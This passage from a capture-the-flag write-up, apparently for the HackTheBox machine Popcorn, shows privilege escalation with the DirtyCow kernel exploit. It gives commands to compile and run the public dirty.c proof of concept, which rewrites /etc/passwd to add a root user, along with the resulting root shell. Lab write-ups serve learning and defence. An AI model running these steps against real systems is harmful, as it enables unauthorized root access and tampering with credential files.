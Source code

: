 

### Dirty Cow

Given the age of this box, there are surely several kernel exploits to
go after here. For example, `uname -a` shows it is running `2.6.31`:



    root@popcorn:/dev/shm# uname -r
    2.6.31-14-generic-pae



It's likely vulnerable to
[DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions).
The page for it has a [list of
POCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs). I've
had the best luck with `dirty.c`. I can grab [this
code](https://github.com/FireFart/dirtycow/blob/master/dirty.c) and
compile it on Popcorn:



    www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt



Now run it:



    www-data@popcorn:/dev/shm$ chmod +x dirty
    www-data@popcorn:/dev/shm$ ./dirty
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: 
    Complete line:
    firefart:fiek5FdMtod.2:0:0:pwned:/root:/bin/bash

    mmap: b78a8000
    ^C



For some reason it hangs sometimes. After a minute, I'll kill it. But
the user is still added:



    www-data@popcorn:/dev/shm$ su - firefart
    Password: 
    firefart@popcorn:~# id
    uid=0(firefart) gid=0(root) groups=0(root)
    firefart@popcorn:~#







